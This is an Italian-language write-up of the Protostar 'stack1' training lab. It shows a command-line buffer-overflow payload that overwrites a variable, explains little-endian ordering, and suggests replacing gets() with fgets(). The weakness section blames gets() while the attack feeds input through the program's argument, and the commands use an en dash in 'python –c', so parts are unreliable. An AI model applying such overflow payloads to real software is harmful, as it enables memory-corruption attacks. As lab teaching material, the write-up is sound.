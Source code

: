 # Protostar_stack 1 - Buffer overflow

## Obiettivo della sfida
Impostare la variabile _modified_ al valore **0x61626364** a tempo di esecuzione

## Strategia di attacco
Mandiamo in escuzione il **stack1**
```bash
> cd /opt/protostar/bin
> ./stack1 abc
# stampa errore
Try again, you got 0x00000000
```
### Cosa fare
Riempire _buffer_ con 64 caratteri e alla fine appendere i 4 corrispondenti a 0x61626364 essi corrispondono alla stringa **"abcd"**

## Come sfruttare le vulnerabilità
Proviamo ad eseguire
```bash
> /opt/protostar/bin/stack1 $(python –c 'print "a" * 64 + "abcd"') 
# stampa errore
Try again, you got 0x64636261
```
Anche se l'input è stato inserito correttamente appare a rovescio, questo avviene perchè l'architettura Intel è **Little Endian**!
### Istruzioni da eseguire
```bash
> /opt/protostar/bin/stack1 $(python –c 'print "a" * 64 + "dcba"')
# sfida vinta
```
## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`
